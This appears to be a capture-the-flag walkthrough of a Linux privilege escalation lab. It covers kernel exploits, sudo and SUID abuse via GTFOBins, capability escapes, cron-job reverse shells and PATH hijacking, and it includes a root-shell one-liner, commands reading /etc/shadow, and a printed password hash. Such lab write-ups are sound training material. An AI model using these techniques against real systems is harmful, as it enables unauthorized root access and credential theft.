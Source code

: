 
## *Enumeration*
>	- Use `hostname` command.
>	- Use `cat /proc/version` command.
>	- Use `cat /etc/issue` command.
>	- Use `python -V` command.![](basic-info.png)
>	- Using the found version to lookup a vulnerability on `exploit-db`.![](kernel-cve.png)

## *Privilege Escalation*
### *Kernel Exploits*
>	 - Get the exploit from `/usr/share/exploitdb/exploits/linux/local/` and save it in current directory for it to be hosted with a python server.![](py-server.png)
>	 - Install the exploit on the target machine using `wget`. No permissions to create a file, so traverse to `/tmp/` and install it.![](exploit-installed.png)
>	 - Use `gcc` to compile the file, and then run the output.![](priv-esc.png)
>	 - Discover the structure of the directories to find the flag.![](flag-1.png)
### *Sudo Exploits*
>	- Use `sudo -l` to list all commands that the user can run with sudo.![](sudo-commands.png)
>	- Use `find` to get he path of the `flag2` file.![](flag-2.png)
>	- Going to `GTFObins` to look for a way to spawn a root shell using `nmap`, the answer is `sudo nmap --interactive`. ![](gtfo-nmap.png)
>	- Going to `GTFObins` to get a root shell using `find`.![](gtfo-find.png)
>	- ![](find-root-shell.png)
>	- ![](frank-hash.png)
>	- The hash is `$6$2.sUUDsOLIpXKxcr$eImtgFExyr2ls4jsghdD3DHLHHP9X50Iv.jNmwoBJpphrPRJWjelWEz2HH.joV14aDwW1c3CahzB1uaqeLR1`
### *SUID Exploitation*
>	- Get users using `cat /etc/passwd | grep "home" | cut -d ":" -f 1`.![](suid-users.png)
>	- Using `find / -type f -perm -u=s 2>/dev/null` to get binaries with `SUID` bit set.![](suid-find-1.png)![](suid-find-2.png)
>	- Going to `GTFObins` to look up the found binaries.
>	- Using `base64` to read the content of `/etc/shadow` and the `/etc/passwd` files.![](suid-gtfo-base64.png)![](suid-shadow.png)
>	- The `user2` hash can be found, copy the content of both files to and save them on the attack machine in `shadow.txt` and `passwd.txt` respectively. ![](suid-shadow-passwd.png)
>	- ![](suid-user2-cracked.png)
>	- Now change the user to `user2` using the cracked password.![](suid-su-user2.png)
>	- Use the same process used to get the content of `/etc/passwd` to get the content of the `flag3.txt`.![](flag-3.png)
### *Capabilities*
>	- Using `getcap -r / 2>/dev/null` to list the enabled capabilities.![](cap-enabled.png)
>	- Using `GTFObins` to search for the found binaries to get a root shell.![](cap-gtfo-shell.png)
>	- Now Using `./view -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'` to open up a root shell. ![](cap-root-shell.png)
>	- Flag can be found at `/home/ubuntu/flag4.txt`.![](flag-4.png)
### *Cron Jobs*
>	- Use `cat /etc/crontab` to get the list of cron jobs.![](cron-crontab.png)
>	-  Change the script in `backup.sh` to open up a reverse shell.![](cron-backup-script.png)
>	- Change the permissions of the file using `chmod +x backup.sh`, and open a listener using `nc -lvnp 6666`. ![](cron-reverse-shell.png)
>	- Flag can be found at `/home/ubuntu/flag5.txt`.![](flag-5.png)
>	- Matt's hash can be found at `/etc/shadow`. ![](cron-matt-hash.png)
>	- Using `john` to crack the hash.![](cron-matt-pass.png)
### *PATH*
>	- Using `find / -writable 2>/dev/null` to get the writable directories.
>	- The above command prints out a lot of noise, limiting search output to `home` directory according to the hint.![](path-writable-dirs.png)
>	- Putting the `/home/murdoch` to the PATH variable using `expot PATH=/home/murdoch/:$PATH`.![](path-updated-variable.png)
>	- Create a file named `thm` in `/home/murdoch` that opens a root shell, change the permissions on the file using `chmod 777 thm`.
>	- Execute the binary `test` that runs the `thm` file.![](path-root-shell.png)
>	- Search for the flag and `cat` it.![](flag-6.png)